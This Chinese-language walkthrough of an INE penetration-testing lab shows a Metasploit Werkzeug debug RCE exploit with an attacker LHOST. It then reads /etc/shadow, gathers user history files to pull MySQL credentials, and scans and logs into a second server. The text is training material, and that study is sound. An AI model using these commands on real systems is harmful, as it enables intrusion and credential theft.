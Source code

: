 查看一下漏洞信息
```
cat /usr/share/exploitdb/exploits/python/remote/37814.rb
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/de7c0a718fec4883a0090337f77bebb4.png)

发现此版本可以利用，打开msfconsole
```
use exploit/multi/http/werkzeug_debug_rce
set RHOSTS server1.ine.local
set LHOST 192.220.184.2
run
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d6a5fbf5ef04550bea48f3595d67fd2.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/1a967859dc0d43c79e20600d7d87fb93.png)

成功的拿到了最高权限，我们查看一下靶机上存在的用户
```
cat /etc/shadow
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1ec906545dd6404dac5e85f31dc7f91d.png)

目标计算机上共有七个用户

使用enum_users_history模块来查看用户的历史文件，此模块会收集用户特定信息，用户列表、bash 历史、mysql 历史、vim 历史、lastlog 和 sudoers
```
background
use post/linux/gather/enum_users_history
set SESSION 1
run
```
然后查看生成的文件
```
cd /root/.msf4/loot/
ls
cat [file]
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/be148f48041c432bada9da7df2377522.png)

这里发现了mysql的用户名和密码，我们开始枚举第二个服务器

```
nmap -A -sS server2.ine.local
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d64017fb302542099499224569561803.png)

发现开放的端口和ip都吻合历史文件的记录，我们登录mysql

![在这里插入图片描述](https://img-blog.csdnimg.cn/9abd757402a4427abdcd12a3442b98e0.png)

然后查看mysql数据库的版本
```
select version();
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6751ed14a41c4f409045ed9ad451e450.png)
